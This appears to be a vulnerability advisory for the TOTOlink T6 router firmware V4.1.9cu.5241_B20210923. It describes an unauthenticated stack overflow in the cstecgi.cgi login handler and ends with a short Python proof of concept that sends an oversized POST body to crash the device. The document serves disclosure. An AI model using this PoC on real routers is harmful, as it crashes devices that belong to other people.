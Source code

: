 # TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.
![Vulnerability](./ida.png)
## POC
![postman-normal](./postman-normal.png)
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.

![gdb](gdb.png)